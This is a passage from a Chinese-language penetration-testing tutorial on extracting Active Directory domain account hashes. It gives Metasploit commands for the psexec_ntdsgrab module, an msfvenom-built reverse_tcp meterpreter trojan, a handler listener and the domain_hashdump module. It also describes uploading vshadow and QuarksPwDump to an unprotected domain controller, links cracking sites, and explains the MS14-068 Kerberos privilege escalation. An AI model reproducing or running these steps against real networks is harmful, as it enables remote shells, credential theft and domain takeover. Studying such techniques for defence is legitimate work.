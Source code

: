 ```bash
use auxiliary/admin/smb/psexec_ntdsgrab 
```

![image-20210224200318764](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210224200318764.png)

设置好 RHOST, SMBDomain, SMBUser, SMBPass ,之后 run .

#### 4.2 基于 meterpreter 会话获取域账号和域散列值

生成木马

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.2.148 LPORT=4444 -f exe>msf.exe
```

msf 监听

```bash
use exploit/multi/handler
```

域控点击木马，拿到 meterpreter 会话

使用 `doamin_hashdump` 模块获取域账号和域散列值。

```bash
use post/windows/gather/credentials/domain_hashdump
```

设置· session 后 exploit 。

## 五、使用vshadow.exe和QuarksPwDump.exe导出域账号和域散列值

、在域控无杀软的情况下可以尝试将这两工具上传到域控，前者可以生成快照，后者则可以导出散列值。

https://github.com/quarkslab/quarkspwdump

本地破解散列值：

http://ophcrack.sourceforge.net/tables.php

在线破解：

https://www.somd5.com/

https://www.cmd5.com/

## 六、Kerberos 域用户提权漏洞分析与防范

ms14-068, cve-2014-6324

当当前环境内存在该漏洞时，任意域用户都可以提升至域管理员权限.

成因：用户在向Kerberos秘钥分发中心（KDC）申请身份凭证（TGT）时可以伪造票据声称自己有域管理员权限，KDC没有验证，直接分发了域管理的TGT，用户再将TGT发给KDC时就可以通过票据授权服务（TGS）的验证，获得域管理权限的票据，从而拥有访问各种服务的权限，达到提权效果。

测试环境：（测试 win2012失败，看后续 win 2008）

域 ： sec.com
